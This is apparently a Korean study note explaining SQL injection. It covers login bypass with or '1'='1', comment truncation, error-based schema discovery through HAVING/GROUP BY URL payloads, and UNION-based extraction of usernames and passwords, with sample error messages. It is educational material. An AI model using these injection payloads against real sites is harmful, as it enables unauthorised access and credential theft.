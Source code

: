 # 🔍  SQL Injection
> SQL Injection이란 말그대로 응용 프로그램, 웹프로그래밍의 보안성 허점을 의도적으로 이용하는 방법으로, 개발자가 의도하지 않은 SQL쿼리를 특정한 방법으로 조작하여 데이터베이스를 악의적인 목적으로 조작하는 기술이다.

## ❓ 논리적 에러를 이용한 SQL Injection

논리적 에러를 이용한 방법을 설명하기위해 쿼리문을 이용하여 설명해보려고 한다.

```sql
SELECT NO, NAME, EMAIL
FROM USER
WHERE EMAIL = 'example@domain.com'
	AND PASSWORD = 12345678;
```
위와 같이 EMAIL과 PASSWORD를 입력받아 사용자의 정보를 가져오는 로그인 쿼리는

HTML의 FORM태그에서 입력받은 값을 통해 쿼리문이 실행되어 리턴된 결과를 서버로 전달한다.

논리적 에러는 EMAIL과 PASSWORD를 입력받는 과정에서의 입력값 조작을 통해 주로 이루어진다.

```sql
SELECT NO, NAME, EMAIL
FROM USER
WHERE EMAIL = 'example@domain.com'
	AND PASSWORD = 12345678 or '1'='1';
```

![form](https://i.imgur.com/d4R8sYN.png)

위와 같이 입력값의 검증 과정을 or '1'='1' 을 삽입하하는것으로 `WHERE`절의 조건을 항상 `True`로 판별되게 만드는것이다.

`or` 을 이용한 조작 외에도 `--`와 `#`을 이용한 **쿼리 주석화** 방법도 있다.

## 👁️‍🗨️ 데이터 알아내기

타겟이 되는 시스템의 주요 데이터를 탈취하기 위한 방법으로 에러 메세지를 통해 테이블의 구조를 추측하고
컬럼의 이름, 컬럼의 자료형등을 알아낸후 다음번에 설명할 `UNION` 연산자를 통해 테이블 전체를 알아 낼 수 있다.

### 에러 발생시키기
> 첫번째로는 공격포인트를 찾기위해 `Having`과 `group by` 구문을 사용해 에러를 유발시켜
사용중인 데이터 베이스에 관한 기본적인 메타 정보를 알아내는 과정을 말한다.


`group by 없이 having절을 사용하는 방법으로 일부러 에러를 유발시킨 후 메세지를 유추하여 테이블 정보를 알아낸다`

컨트롤러에서 게시물을 확인하기위한 SQL 쿼리가 다음과 같다고 가정하자.

```sql
SELECT *
FROM Board
WHERE idx = ?
```

이 쿼리의 실행이 다음과같은 URL의 요청으로 이루어진다고 했을때

`www.example.com/read?idx=?`

공격자는 에러 메세지를 유발하기 위해 다음과 같은 요청을 한다

`www.example.com/read?idx=1 'having 1=1--`

위 URL의 에러 로그는 다음과 같다.

![캡처](https://i.imgur.com/FOhluXJ.png)

에러 로그를 통해 테이블 이름이 member이고 idx가 첫번째 컬럼이라는걸 알 수 있는것이다.

이후 group by와 having을 함께 쓰는 방법을 사용하면 다른 열도 알아낼 수 있다.

`www.example.com/read?idx=1 'group by idx having 1=1--`

![캡처](https://i.imgur.com/ENuG5bd.png)

같은 방식으로 `sum()`을 이용한 각 컬럼의 자료형도 알아낼 수 있다.

### UNION BASED
UNION을 이용해 공격자가 의도한 쿼리를 뒤에 덧붙여 사용하는것으로 에러 발생시키기 과정에서 수집한 정보들을 이용해 내부 정보를 갈취한다.

```sql
' union select sum(id) from user--'
# user 테이블의 데이터 타입 알아내기
```


아래의 쿼리는 a보다 큰 **username중 최소의 값을 가져오는 쿼리이다. 그 결과를 integer형식으로 변환**하기 위해 실행되지만 이후 에러가 발생한다.

```sql
' union select min(username), 1,1,1 from users where username > 'a'--'
```

에러 메세지는 다음과 같다.

```
Microsoft OLE DB Provider for ODBC Drivers (0x80040E07)
 [Microsoft][ODBC SQL Server Driver][SQL Server]varchar 값 'admin'을(를) int 데이터 형식의 열로 변환하는 중 구문 오류가 발생했습니다.
 /process_login.asp, line 34
 ```

 이처럼 username 과 비교되는 a의 값을 admin으로 변경하면 다음 결과, 그 다음 결과를 순차적으로 알 수 있다.

같은 방식으로 where절에 위에서 얻은 id값을 UNION이 들어간 쿼리에 대입한다면 패스워드를 알아내는것도 가능한것이다.
